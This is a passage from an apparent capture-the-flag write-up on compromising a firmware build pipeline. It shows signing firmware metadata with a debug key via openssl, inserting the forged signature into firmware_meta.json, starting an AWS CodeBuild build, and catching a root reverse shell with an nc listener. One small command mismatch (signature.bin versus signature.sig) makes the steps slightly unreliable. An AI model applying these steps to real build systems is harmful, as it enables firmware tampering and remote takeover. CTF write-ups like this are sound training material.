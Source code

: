 Now let's calculate signatue using openssl tool.

```bash
openssl dgst -sha256 -sign debug.pem -out signature.bin firmware_meta.json
base64 -w0 signature.sig
```

Create an entry for the signature in the `firmware_meta.json`. 

```json
{
  "timestamp": "2025-04-22T10:44:52Z",
  "firmware_hash": "21a730fb69d32a3e68bbcd920c7cfc893692ade3367788b77257bced3c3cd282",
  "signature": "QHIgLBszQWkdwUl58tiMj4WKkrK0S5M2dFJ0goWkT7p2uWSBwhmfc8s83kDB7hw7tASbAgb8vpkwrxo8f7zscybW01gAREJ7GHB49fXDsSMcA9WjoGfHqfXqQSuo2g3Dl0fHSA0mMibno1lskUfPHkgMGp1OuQsKu4yki6cmnIg0SGXtrCL65HUygwnkf6jyoftFen4wH+76D5wzLqAKkgmzRcNdY/+gNMEE9Sj9N3gsIEDSZ83VcevGK8Cva5c83Wcljgr/tQQuDFRtizmko3LA+1nQMukRexxSBduLkh2UDMe/hcCvxPFXIwBdUCBPSpb/oiKKW7+nsedRcMPJog=="
}

```

Create a merge request for these changes and start the build.

```bash
aws codebuild start-build --project-name volnaya-firmware-build                                                                     
{                                                                                                                                         
    "build": {                                                                                                                            
        "id": "volnaya-firmware-build:d006b7e6-7ca6-4a5e-a940-1f24052bf9a0",
        "arn": "arn:aws:codebuild:us-east-2:084375550617:build/volnaya-firmware-build:d006b7e6-7ca6-4a5e-a940-1f24052bf9a0",
        "buildNumber": 43,
...
```

We receive a shell and can find the flag from `/flag.txt`. 

```bash
nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 18.189.24.231 43712
id
uid=0(root) gid=0(root) groups=0(root)
```

